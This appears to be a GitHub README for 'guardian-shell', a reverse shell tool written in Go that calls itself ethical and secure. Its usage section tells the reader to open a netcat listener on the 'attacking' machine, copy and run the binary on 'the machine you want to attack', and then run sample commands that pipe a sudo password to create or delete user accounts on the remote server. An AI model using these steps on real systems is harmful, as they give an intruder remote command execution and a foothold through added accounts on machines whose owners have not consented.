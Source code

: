 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management, monitoring and penetration testing. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`

step 2 : run guardian-shell binary on the machine you want to attack. 
copy from this repo the binary and paste it on the machine you want to attack and run it `./guardian-shell`
on success, it will give you response `Connected to the reverse guardian listner!` or it will wait for listner.

## sample commands

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```
## to do
file transfer 

## on attack machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attacked
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)
